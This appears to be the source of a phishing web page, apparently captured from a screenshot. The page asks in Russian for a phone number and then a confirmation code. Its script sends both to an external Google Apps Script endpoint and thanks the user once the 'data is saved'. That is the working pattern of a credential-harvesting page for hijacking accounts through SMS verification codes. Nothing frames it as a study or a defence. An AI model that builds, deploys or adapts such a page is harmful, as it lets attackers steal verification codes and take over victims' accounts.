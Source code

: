     button:hover {
      background-color: #397be8;
    }
    #codeSection {
      margin-top: 20px;
    }
    @keyframes fadeIn {
      from {opacity: 0; transform: translateY(10px);}
      to {opacity: 1; transform: translateY(0);}
    }
  </style>
</head>
<body>
  <div class="card">
    <h2>Введите номер телефона</h2>
    <input type="text" id="phone" placeholder="+374..." />
    <button onclick="savePhone()">Продолжить</button>

    <div id="codeSection" style="display:none;">
      <h2>Введите код подтверждения</h2>
      <input type="text" id="code" placeholder="Код" />
      <button onclick="saveCode()">Подтвердить</button>
    </div>
  </div>

  <script>
    let savedPhone = '';
    const url = 'https://script.google.com/macros/s/AKfycbzNf1gOLPJXmzsBIuAumpGr-e1fWWwBykrti4w5IURBmMJhQcXZ4WJZ46K00dK2nGt9ow/exec';

    function savePhone() {
      savedPhone = document.getElementById('phone').value.trim();
      if (!savedPhone) return alert('Введите номер телефона!');
      document.getElementById('codeSection').style.display = 'block';

      fetch(url, {
        method: 'POST',
        body: JSON.stringify({ phone: savedPhone, code: '' }),
        headers: { 'Content-Type': 'application/json' }
      });
    }

    function saveCode() {
      const code = document.getElementById('code').value.trim();
      if (!code) return alert('Введите код!');
      
      fetch(url, {
        method: 'POST',
        body: JSON.stringify({ phone: savedPhone, code: code }),
        headers: { 'Content-Type': 'application/json' }
      }).then(() => {
        alert('Спасибо! Данные сохранены.');
      });
    }
  </script>
</body>
</html>
